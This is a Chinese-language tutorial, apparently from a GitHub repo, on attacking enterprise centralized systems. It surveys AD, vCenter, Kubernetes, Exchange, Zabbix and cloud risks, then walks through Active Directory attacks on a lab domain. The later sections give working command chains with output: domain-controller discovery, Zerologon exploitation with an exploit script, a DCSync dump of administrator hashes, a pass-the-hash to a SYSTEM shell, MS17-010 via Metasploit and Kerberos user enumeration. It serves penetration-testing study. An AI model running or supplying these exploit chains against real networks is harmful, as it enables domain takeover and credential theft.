## <span style="color:lightblue">集权设施攻击</span>
## <span style="color:lightblue">1.集权设施概述</span>

### <span style="color:lightgreen">1.1 什么是集权设施</span>

```
"集权设施"是信息技术领域的一个关键概念,通常指的是一种计算系统,它具备集中的权威,决策和控制权,
用于管理和协调大规模计算资源,网络资源以及身份验证和授权凭据.

这些集权设施在现代IT基础设施中发挥着至关重要的作用,确保了复杂的系统能够高效运行,安全性得到维护.

具体实践中,集权设施包括但不限于以下几种:

1.Kubernetes

Kubernetes是一个容器编排平台,它允许用户管理和协调容器化应用程序的部署,伸缩和维护.
Kubernetes作为一个集权设施,能够管理数百个容器节点,并提供自动化的复杂均衡,故障恢复和应用程序扩展.

2.AD域(Active Directory)

AD域是微软的目录服务,用于集中管理用户,计算机和其他资源.
它提供了身份验证和授权服务,允许用户访问网络资源,并管理安全策略.
AD域是企业中常见的集权设施,有助于确保安全,一致的身份管理和访问控制.

3.vCenter

VMware vCenter是用户管理虚拟化环境的集权设施.
它能够管理和监控多个虚拟机主机,实现资源池化和虚拟机迁移,提高了资源的利用率和系统的灵活性.

4.Zabbix

Zabbix是一种监控系统,允许管理员集中监视计算资源,网络性能和应用程序运行状态.
作为一个集权设施,Zabbix提供了警报和自动化响应功能,有助于保持系统的可用性和性能.

5.堡垒机

堡垒机是一种安全设备,用于管理对远程计算资源的访问.
它可以集中管理授权和审计远程用户的访问,以确保安全性和合规性.

这些集权设施通常以金字塔结构的方式组织,自顶向下实施决策和控制,为整个系统提供了统一的管理和协调.
这种集权化的管理方式不仅提高了效率,还有助于确保安全的访问控制功能.
这对于大规模,复杂的额IT基础设施非常重要,以应对不断增长的需求和变化.
集权设施在信息技术领域的进步和演进将继续为现代IT基础设施的可维护性和可扩展性带来重大益处.
```

### <span style="color:lightgreen">1.2 集权设施的典型特征</span>
### <span style="color:#F98B26">1.2.1 运维视角的集权设施的典型特征</span>

```
集中性:

集权系统的主要特征是集中管理和控制.
他们将相关的功能,数据或服务集成到一个中心为止,以便进行更有效的管理和监控.
例如,集中认证系统管理用户的身份认证.

中央数据存储:

许多集权系统涉及中央数据存储,这意味着数据在一个地方集中存储,而不是分散存储在多个地方.
这有助于数据的一致性和集中备份.

标准化:

集权系统通常采用标准化的方法和协议,以确保不同组件之间的互操作性.
这有助于降低复杂性,并使系统更易于管理和维护.

集中管理:

这些系统允许管理员从一个中心点管理和配置各个组件.
管理员可以在一个地方进行修改,而不必分别管理每个组件.

安全性:

由于集权系统涉及大量的敏感数据和关键功能,它们通常具有强大的安全性措施.
这包括身份认证,授权,加密和访问控制.

自动化:

集权系统通常包括自动化功能,以减少手动干预和提高效率.
例如,企业资源规划(ERP)系统可以自动化业务流程.

可伸缩性:

集权系统通常具有可伸缩性,可以根据需要扩展.
这使得它们适用于不同规模的组织.

监控和报告:

这些系统通常包括监控好报告功能,以便管理员可以随时查看系统性能和问题.

数据备份和恢复:

由于集权系统存储了重要的数据,它们通常具有数据备份和恢复机制,以应对数据丢失或损坏的情况.

互操作性:

集权系统通常能够与其他系统和服务进行交互操作.
这使得它们可以集成到整个企业的生态系统中.
```

### <span style="color:#F98B26">1.2.2 攻击者视角集权设施的典型特征</span>


```
集权设施拥有大量的用户凭据:

这些凭据是控制员工账户的关键,获取它就等于获取了企业内每个用户的身份,
攻击者可以利用这些身份进行更深入的攻击,获取去敏感的企业数据.

集权设施具有广泛的网络权限:

这使得集权设施成为网络中的核心,攻击者可以通过控制集权设施获取对整个企业网络的访问权限,
就像拿到了整个城堡的钥匙.

集权设施可以控制大量的计算节点:

这就意味着攻击者通过控制集权设施可以控制网络中的大部分资源,他们可以利用这些计算资源进行更大规模的攻击,
或者利用这些资源来隐藏自己,使得追踪和防御变得更为困难.
```

### <span style="color:lightgreen">1.3 企业中常见的集权设施</span>

```
集中认证和授权系统:

集中认证和授权系统用于管理用户身份认证和授权,通常包括单点登录(SSO)系统.
其集中处理用户的身份验证,并确保安全,可管理的用户访问企业资源.

集中存储和数据管理系统:

集中存储和数据管理系统通常使用中央数据库或数据存储系统来管理和存储核心业务数据.
这些系统通常集成了数据备份,恢复和安全性措施.

集中的日志和审计系统:

日志和审计系统用于收集,存储和分析系统和应用程序的日志信息,以便进行安全审计和监控.
这有助于及早发现异常活动.

企业资源规划(ERP)系统:

ERP系统集成了企业各个方面的数据和流程,包括财务,人力资源,供应链管理等.
这些系统通常在整个企业范围内实现集中管理.

电子邮件服务器和消息系统:

邮件服务器和消息系统用于管理企业通信,包括电子邮件和即时消息.
它们通常涉及到存储,加密和数据保护.

集中式存储区域网络(SAN):

SAN用于存储和管理大容量数据的企业级存储解决方案.
SAN系统通常用于支持数据库,文件存储和虚拟化环境.

云服务和数据中心管理系统:

企业使用云服务和数据中心管理系统来管理和监控云基础架构和数据中心资源.
这包括自动化,容量规划和性能管理工具.

随着集权设施的发展,新一代的集权设施也逐渐应用到现在的大型企业中,
其中包括了以下新的集权设施.

DevOps开发运维一体化:

覆盖应用开发,代码部署和质量测试等生命周期的集成化平台.

Monitor性能监控:

覆盖主机,网络,数据库,业务监控等维度的性能数据采集监控及告警.

AutoOps自动化运维:

覆盖服务器,云平台,数据库,中间件,网络设备等维度的自动化编排运维.

CMDB配置管理:

运维信息管理和自动化的基石,覆盖资源管理,业务管理,权限配置管理.

这些集权系统在企业中发挥着关键作用,提供了便捷性,安全性和管理性,
但也需要适当的安全措施来保护免受潜在威胁的侵害.
不同的企业根据其需求和规模可能会使用不同的集权系统.
```

### <span style="color:#F98B26">1.3.1 企业常见集权设施拓扑</span>

```
集权设施作为企业的核心基础设施,其构建拓扑也呈现出多种形态,在以AD为核心的集权拓扑中,
接入了大量的windows终端,服务器,用户管理,邮件系统,网络设备,单点登录等系统,呈现出以AD为集权中心,
构建了一个有机的,高度协调的基础设施生态系统.

这种集中化管理不仅提高了整个企业IT生态的效率,还确保了安全性和一致性,确保了业务的无缝运行.
```



```
以运管平台为核心拓扑中,接入了企业内下级多层门店,园区等设备,通过运管平台进行统一终端管理,运维,巡检,
呈现以运管平台为核心的集中运维架构.
```



### <span style="color:lightgreen">1.4 常见集权设施安全风险</span>


```
在现代企业环境中,包括但不限于AD,vCenter,k8s,Exchange,单点登录,邮件服务器,
公有云平台以及网络监控与管理工具等各种集中设施均扮演着至关重要的角色.
这些设施不仅对于日常运营至关重要,同时也成为了潜在的攻击者的首要目标.
是当前攻击者的火力焦点.
再过去几年,各种安全会议如Blackhat,都可以看到针对于集权设施的安全问题成为热议的话题,
攻击者越来越多的目标集中在集权设施中.
```

```
Active Directory

AD是企业中用于管理网络资源和用户身份的关键组件.
在全世界终端统一管理与集中身份认证领域占据非常大的市场规模,同时它也面临着巨大的安全风险.
企业运维及安全管理过程中常见的安全风险如下:

离职或转移导致账户管理迁移的问题,如果AD账户未及时禁用或删除,离职员工可能会继续访问公司系统,从而导致安全问题.

账户权限泛滥用,攻击者可能通过弱口令或漏洞获取员工账户的控制权,从内部访问敏感数据或控制企业系统.

漏洞攻击,包括Kerberos漏洞,SMB漏洞,Netlogon远程协议漏洞,Zerologon漏洞,DNS域传送漏洞,域内提权漏洞等.

此外,身份伪造是另一个潜在问题,攻击者可能伪造员工账户或冒充其他用户以获得访问权限,敏感数据泄露和其他安全问题.

一旦AD受到攻击或失陷,可能导致严重后果.
域控失陷,管理员凭据失窃,数据泄露,暴漏敏感信息,影响合规性,通过AD分发勒索软件导致陷入勒索事件等,对企业影响巨大.
```

```
vCenter

在企业内另外一个重要的集权设施vCenter也是攻击者的重点目标之一,
vCenter是用于管理虚拟化环境的关键组件,但它同样存在潜在的安全风险.

特权账户滥用:

如果管理员未正确配置访问控制,攻击者可能会获得未经授权的访问权限,并对系统进行恶意操作.
账号与权限滥用也构成威胁,攻击者可能通过社会工程学或钓鱼攻击获取管理员的账号和密码,
然后使用这些凭证来操纵vCenter系统和虚拟机.

管理员过度授权:

或授权不应该具备的权限,如允许用户访问虚拟机的敏感数据或操作虚拟机.

漏洞攻击:

vCenter Server可能受到多种漏洞的威胁,如远程代码执行漏洞,信息泄露漏洞,命令注入漏洞,身份绕过漏洞等.

此外,虚拟机逃逸是一个潜在威胁,攻击者可能会利用漏洞或其他技术手段从虚拟机中逃逸,访问宿主机或其他虚拟机,
从而获得对虚拟机主机或vCenter Server的控制权限.

一旦vCenter 受到攻击或失陷,可能会导致数据泄露,数据篡改,系统不稳定和服务中断,对业务连续性产生严重影响.
同时,漏洞利用和虚拟机逃逸可能导致敏感数据泄露和机密信息的曝光.
```

```
单点登录系统:

单点登录系统在企业中广泛用于集成用户认证和授权,使用户能够通过一次登录获得对多个应用和服务的访问权限.
而此类的身份集权设施通常面临着非常多潜在的安全风险:

凭证泄露:

攻击者可能会通过各种手段获取用户的登录凭证,如用户名和密码.
一旦凭证被窃取,攻击者可能能够访问用户的账户和敏感数据,从而导致机密信息泄露.

身份伪造:

身份类集权设施永远绕不开的就是身份伪造攻击,攻击者可能会伪造用户身份,冒充合法用户,
获得对敏感系统和数据的访问权限.
这种身份伪造可能导致未经授权的操作,如数据篡改和信息泄露.

漏洞攻击:

SSO系统本身或其相关组件可能存在漏洞,攻击者可以利用这些漏洞来获取对系统的控制权.
一旦攻击者接管了SSO系统,它们可能能够控制用户的访问权限,或者导致系统崩溃.
```

```
Kubernetes

Kubernetes是一种用于容器编排和管理的开源平台,它在现代云原生应用中起着关键作用.
也是现代企业中业务部门广泛使用的容器编排与管理平台,在运维过程中,Kubernetes也统一存在非常多潜在的安全风险.

错误配置:

管理员可能会错误地配置角色,权限或访问控制策略,导致未经授权的用户获得访问权限或者授予了错误的权限.
此外,暴漏不必要的端口,使用不安全的协议,不正确的设置访问控制等都可能导致安全问题.

权限滥用:

用户在没有授权或未经许可的情况下,利用其所拥有的特权或权限执行不当操作或者对集群资源进行滥用的行为.
这些行为可能导致严重的安全问题.
例如,一个用户可能在没有授权的情况下,创建了一个具有特权的容器或Pod,然后利用该容器或Pod执行恶意操作,如窃取凭据,删除数据等.

漏洞攻击:

Kubernetes也容易受到漏洞攻击的威胁,包括特权提升漏洞,中间人劫持漏洞,Kubectl命令目录穿越漏洞,文件系统逃逸漏洞等.

恶意镜像:

Kubernetes 使用镜像来运行容器,但镜像可能包含恶意代码或者被篡改.
攻击者可以利用恶意镜像在集群中执行任意代码,窃取敏感信息,加密文件等.
```

```
Exchange

邮件服务器(Exchange)在企业中扮演着关键的角色,用于电子邮件通信和数据存储,
在业务中被广泛使用于信息传递,因此在攻击视角看,邮件服务器的攻击价值极高,
通过邮件系统可以获取大量敏感信息,当前针对邮件系统的攻击及安全风险大致分为几个方面:

社工钓鱼攻击:

邮件服务器上存储的电子邮件可能包含敏感信息,如公司机密,合同和财务数据.
攻击者通过钓鱼的方式获取邮箱登录凭据,查看邮件,导致敏感信息泄露.

漏洞攻击:

Exchange服务器本身或相关组件可能受到漏洞威胁,
如ProxyShell,Proxylogon等,
攻击者可能通过这些漏洞获取对服务器的访问权限,导致数据泄露或系统被控.

功能滥用:

攻击者通过滥用邮件系统的自带如邮件委托,邮件导出功能,跨账户翻阅其他用户的邮件,或上传木马文件等,此类攻击正是在实际环境中常见并难以发现的一个风险点.
```

```
公有云

当前企业越来越多地将业务迁移至公有云服务商,广泛使用公有云平台来存储数据,托管应用程序和提供服务.
然而,云环境中的广泛使用也使攻击者将目光转移到云服务,云服务的风险面也是我们应该重点关注的一个维度.

权限管理不当:

存储在公有云中的数据通常会受到云平台基于RBAC等策略的影响,此类配置不当可能被未经授权的用户或泄露,导致机密信息暴漏.

漏洞利用:

云服务提供商的组件可能存在漏洞,攻击者可以利用这些漏洞来获取对云资源的控制权,这可能导致数据泄露,数据篡改或服务终端.

账户管理问题:

云平台的 AK/SK 或账户权限问题是公有云使用中面临最大的一个安全风险,往往会导致云服务器失陷,数据库或存储服务数据失窃,造成严重的损失.
```

```
Zabbix

网络监控与管理工具如Zabbix用于监控网络设置和系统性能,是企业内常用的服务器集中管理与监控系统,
其面临着潜在的安全威胁同样也是我们应该重点关注的一个方面:

授权管理问题:

不正确的配置和授权可能导致未经授权的访问和控制.
攻击者可以直接获得对Zabbix系统的控制权限,通过Zabbix服务端下发恶意命令或勒索软件.

漏洞利用:

Zabbix系统本身或其相关组件也存在漏洞,攻击者可以利用这些漏洞来获取对系统的控制权限.
一旦攻击者接管了监控系统,即可直接控制监控和管理纳管的服务器终端.
```

```
在这个日益复杂的威胁环境中,企业需要采取积极的措施来应对这些安全风险.
这包括定期的制定针对集权设施的攻击检测策略,漏洞扫描,强化访问控制,员工培训,应急响应激活等安全策略.
安全性应被视为核心业务的一部分,以确保企业网络环境的稳定和安全运行.
```

## <span style="color:lightblue">2.Active Directory</span>

```
在较大的企业,政企,高效等单位的网络信息化建设中,域环境常常是内部网络建设的重要一部分.
而从现有网络安全建设来看,大部分单位的内部网络的安全性往往做的没有边界严格,因为网络防御的重点基本还是集中在网络边界上.
随着黑产团伙网络攻击事件的频频发生,在攻击者"穿过"单位网络的"边界防御后",内部网络无疑是攻击者不会轻易放过的"香饽饽".
黑客经常会利用AD域作为首要攻击目标,特别是域控服务器,一旦其沦陷,基本上可以认为整个域已宣布失陷;
以ATT&CK视角来看,整个过程黑客涉及了网络攻击生命周期中的权限提升,内部侦查和横向移动阶段.
接下来将介绍这些攻击手法.
```

### <span style="color:lightgreen">2.1 无凭据场景</span>
### <span style="color:#F98B26">2.1.1 定位域控</span>

```
在前期打点阶段成功拿到一台机器的shell后,然后判断出该环境存在域,
这时需要首先明确域控所在的位置,为后期攻陷域控做信息收集.
```

```
1. 端口扫描:

扫描目标的88,389,636定位域控

88  kerberos-sec
389 ldap
636 ssl/ldap
```

```
nmap -p 88,389,636 -Pn 192.168.0.56 -A -T4
```



```
2. dns解析

首先通过端口扫描得到DNS服务器的地址
```

```
nmap -p 53 -Pn 192.168.0.56 -A -T4

PORT   STATE SERVICE VERSION
53/tcp open  domain  Simple DNS Plus
```

```
C:\Users\jason.hudson>nslookup
DNS request timed out.
    timeout was 2 seconds.
Default Server:  UnKnown
Address:  192.168.0.56

> server 192.168.0.56
DNS request timed out.
    timeout was 2 seconds.
Default Server:  [192.168.0.56]
Address:  192.168.0.56

> blackops.local
Server:  [192.168.0.56]
Address:  192.168.0.56

Name:    blackops.local
Address:  192.168.0.56
```

```
3. 使用NTLM Info 获取域控的机器名

在无凭据的场景下我们通过端口扫描或者dns解析的方式得到域控的ip地址之后,
还需要收集域控的机器名等信息,此时可以使用 NTLM Info来进行收集.
```

```
crackmapexec smb 192.168.0.56
```



```
在无凭据的场景下我们通过端口扫描或者dns解析的方式得到域控的地址,
此时可以考虑Zerologon,ms17_010等方法直接拿到域控权限.
```

### <span style="color:#F98B26">2.1.2 可直接进行利用的漏洞</span>
### <span style="color:#F98B26">2.1.2.1 Zerologon漏洞</span>

```
漏洞原理:

该漏洞发生在 Netlogon 远程协议(MS-NRPC)与域控制器建立安全通道的过程中.

首先将介绍Netlogon协议.

Netlogon远程协议是Windows域控制器上提供的一个 RPC接口.
它用于与用户和计算机身份验证相关的各种任务,最常用于通过NTLM协议帮助用户登录服务器.
其他功能包括对NTP相应的认证,特别是:允许计算机在域内更新其密码.

RPC接口可通过域控制器的 'portmapper'服务分配的动态端口或通过端口445上的SMB管道以TCP方式访问.

该漏洞存在于Netlogon 远程协议(MS-NRPC)的ComputeNetlogonCredential(该函数用于客户端和服务器使用密码原语生成凭据值)调用的过程中.
MS-NRPC通常用于更改Active Directory中的密码.
ComputeNetlogonCredential将8字节质询作为输入,并使用会话秘钥将质询转换为带有AES-CFB8的哈希以输出8字节结果.
加密需要使用初始向量(IV),但ComputeNetlogonCredential函数将IV设置为16个零字节的固定值.

这造成了一个缺陷,因为加密8字节的零可能会在256次尝试中产生1个概率为全零的密文.
此外,服务器接受未加密的netlogon会话,从而允许利用.
```
https://www.netwrix.com/zerologon_attack.html
```
漏洞利用:

https://github.com/dirkjanm/CVE-2020-1472

也可使用mimikatz进行利用

1. 首先进行扫描查看目标域控是否具有Zerologon漏洞

https://github.com/Amulab/advul

python3 main.py -ts -dc-ip 192.168.0.56 zerologon

[192.168.0.56] is vulnerable to zero logon!!!

2.重置密码

python3 cve-2020-1472-exploit.py dc 192.168.0.56

3.DCSync

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -no-pass -just-dc-user administrator blackops.local/dc\$@192.168.0.56

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:d15fdea760f725c19d15c595230fe937:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:ac267a16c8b0ca49d39c55fa27b33a9d7f837140bc29fda4e671cbd13fac35a3
Administrator:aes128-cts-hmac-sha1-96:428baac078e5c2afd3d60ad38ef8ebe4
Administrator:des-cbc-md5:c7200bbc3b04e6e0
[*] Cleaning up...

4.PTH攻击

python3 /usr/share/doc/python3-impacket/examples/smbexec.py blackops.local/administrator@192.168.0.56 -hashes :d15fdea760f725c19d15c595230fe937 -dc-ip 192.168.0.56

Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute
C:\Windows\system32>whoami
nt authority\system

5.恢复密码

在攻击成功之后为防止脱域还需恢复密码

reg save HKLM\SYSTEM system.save
reg save HKLM\SAM sam.save
reg save HKLM\SECURITY security.save

通过sam.save security.save system.save 等文件获得原域控机器上的hash值,用于恢复密码:

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -system system.save -security security.save LOCAL

$MACHINE.ACC:plain_password_hex:a2219c976d6f359942dd0d3cb718711970f6701ea5add161881958ab7be871a2e081a2ea761278722133487efc67a7cf16e255187472e60971e731659fb76ba39f9bcd0009e55243fe23a8282712c69ca5f65240f0961e7243438ae6e92870eb68ebcfe0c70aad68fc598806ab8d8bac64081311c360ee4c2f35d85793ac2e5c48b2045004515398f8239909893ba7a48a01241cf30b536cec1f2df981f4fb6a59ab2ec44ccadb3c72f9307c1ea12e9585c4af5719f3f1224d210ee7619a46b048bf6f6623ba86d891dbe542930e0727ee059359b8c7b762f7138602588bbd1648d61e347091118989137f8159f07741

恢复密码

python3 restorepassword.py blackops.local/dc@dc -target-ip 192.168.0.56 -hexpass a2219c976d6f359942dd0d3cb718711970f6701ea5add161881958ab7be871a2e081a2ea761278722133487efc67a7cf16e255187472e60971e731659fb76ba39f9bcd0009e55243fe23a8282712c69ca5f65240f0961e7243438ae6e92870eb68ebcfe0c70aad68fc598806ab8d8bac64081311c360ee4c2f35d85793ac2e5c48b2045004515398f8239909893ba7a48a01241cf30b536cec1f2df981f4fb6a59ab2ec44ccadb3c72f9307c1ea12e9585c4af5719f3f1224d210ee7619a46b048bf6f6623ba86d891dbe542930e0727ee059359b8c7b762f7138602588bbd1648d61e347091118989137f8159f07741
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] StringBinding ncacn_ip_tcp:192.168.0.56[49678]
Change password OK
```

### <span style="color:#F98B26">2.1.2.2 ms17-010 漏洞</span>

```
漏洞原理:

MS17-010(永恒之蓝)是影响Windows操作系统中SMB1协议的漏洞.
攻击者可以通过向SMBv1服务器发送特制数据包来触发此漏洞,从而在目标系统上执行任意代码.

为利用此漏洞,攻击者向SMBv1 服务器发送特制数据包,触发缓冲区溢出,从而允许攻击者在目标系统上执行任意代码.
该数据包通过TCP端口139和445发送,这些端口是SMB协议使用的.
漏洞的根本原因是SMBv1服务器处理特定请求的方式存在缺陷.

具体而言,漏洞与服务器处理具有特定参数的事务请求的方式有关.
通过发送具有特定参数的特质事务请求,攻击者可以导致服务器为请求分配不足的内存,这可能导致缓冲区溢出和执行任意代码

漏洞利用:

msfconsole
```

### <span style="color:#F98B26">2.1.3 获取账户</span>
### <span style="color:#F98B26">2.1.3.1 域用户枚举</span>

```
在kerberos协议认证的AS-REQ阶段,cname的值是用户名.
当用户不存在时,返回包提示错误.

当用户名存在,密码正确和密码错误时,AS-REP的返回包不一样.
所以可以利用这点,对域内进行域用户枚举和密码喷洒等攻击.
```

```
正常域用户登录主机,我们可以通过 net user /domain 来列举出域内的用户.
但是当我们用非域用户进行登录时,是不能使用 net user /domain 这条命令的.
或者当主机不在域内但是能与域控通信时,我们可以通过域内用户枚举来探测域内的用户.

在AS-REQ阶段客户端向AS发送用户名,AS对用户名进行验证,用户存在,用户禁用,和不存在返回的数据包不一样.

KRB5KDC_ERR_PREAUTH_REQUIRED        需要额外的预认证,用户已经存在   25
KRB5KDC_ERR_CLIENT_REVOKED          客户端凭据已被吊销,用户被禁用   12
KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN     用户不存在                      6
```

```
枚举原理:

当用户名存在,密码错误:返回 KRB5KDC_ERR_PREAUTH_REQUIRED ,并携带e-data数据.
```

```
当用户名不存在: 返回 KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN,不携带e-data数据
```



```
攻击流程:

用户名枚举攻击这里使用kerbrute工具进行利用

kerbrute userenum --dc 192.168.0.56 -d blackops.local user.txt
```

